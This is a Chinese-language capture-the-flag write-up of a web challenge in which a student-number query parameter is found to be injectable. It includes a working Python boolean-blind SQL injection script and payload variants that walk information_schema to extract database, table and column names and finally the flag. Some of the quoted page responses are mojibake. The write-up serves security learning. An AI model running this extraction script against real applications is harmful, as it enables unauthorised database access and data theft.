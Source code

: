![[Pasted image 20221223122239.png|500]]

---
首页长这样

![[Pasted image 20221223122304.png|700]]

通过`stunum`传递查询
```php
/?stunum=<num>
```

---
```php
/?stunum=1
```

> Hi admin, your score is: 100

```php
/?stunum=2
```

> Hi åŒå‡»è€é, your score is: 666

```php
/?stunum=3
```

> Hi åˆ«fuzzäº†, your score is: ä½ å°±ä¸ä¼šè¾“ä¸ªå­¦å·?

```php
/?stunum=4
```

> Hi å“¦æ•°æ®å, your score is: AISæˆå‘˜çš„æ•°æ®

逐渐魔法起来力

猜测是不是存在`sql`注入
```php
/?stunum=0^1
```

> Hi admin, your score is: 100

```php
/?stunum=0^0
```

> student number not exists.

尝试直接布尔盲注
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'stunum': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

> information_schema,ctf

```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'ctf\')),%d,1))>%d)'
```

> flag,score

```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'flag\')),%d,1))>%d)'
```

> flag,value

```python
fmt = '0^(ord(substr((select(group_concat(flag))from(ctf.flag)),%d,1))>%d)'
```

> flag

```python
fmt = '0^(ord(substr((select(group_concat(value))from(ctf.flag)),%d,1))>%d)'
```

> flag{808357e6-c9d9-48c6-84f8-23e18ec19981}

#Web #SQL注入 #布尔盲注 